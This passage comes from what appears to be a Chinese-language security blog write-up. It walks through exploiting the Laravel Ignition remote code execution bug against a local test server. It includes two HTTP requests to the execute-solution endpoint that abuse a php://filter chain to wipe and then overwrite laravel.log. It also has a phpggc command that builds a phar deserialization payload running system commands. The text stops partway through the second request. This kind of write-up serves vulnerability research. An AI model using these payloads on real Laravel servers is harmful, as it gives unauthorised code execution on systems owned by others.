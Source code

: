 ![image-20210602002805556](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-02-image-20210602002805556.png)

可以看到达到了RCE的效果。

本次的重点在于，`/storage/logs/laravel.log`文件具有可写入权限，我们可以利用伪协议清空日志，并构造出`phar`文件格式。

清空payload：

```json
POST /_ignition/execute-solution HTTP/1.1
Host: 127.0.0.1:8000
Content-Type: application/json
Connection: close
Content-Length: 326

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "theoyu",
    "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
  }
}
```

关键在于：`convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode`,这里可以看出一共有4步。

- `convert.iconv.utf-8.utf-16be`(UTF-8 -> UTF-16BE)

  ![image-20210602220211795](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-02-image-20210602220211795.png)

- `convert.quoted-printable-encode`(打印所有不可见字符)

- `convert.iconv.utf-16be.utf-8`(UTF-16BE -> UTF-8)

  ![image-20210602220559581](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-02-image-20210602220559581.png)

  可以看到经过这样操作后log文件中所有字符变成了非base64字符，这时候再使用`convert.base64-decode`过滤器就可以成功清空了。

接下来我们需要把payload写入log文件。

我们的确可以直接写入，但我们得确保其他不需要的内容应该删除，同理我们也应该做一些处理：

```bash
 php -d'phar.readonly=0' ./phpggc monolog/rce1 system whoami --phar phar -o php://output | base64 -w 0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:] + '=00' for i in sys.stdin.read()]).upper())"
```
这里生成的结果是奇数，`convert.quoted-printable-decode`要求是偶数，我们可以往前面或者后面随意添加1个字符，然后写入。
```json
POST /_ignition/execute-solution HTTP/1.1
Host: 127.0.0.1:8000
Content-Type: application/json
Connection: close
Content-Length: 326

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "theoyu",
```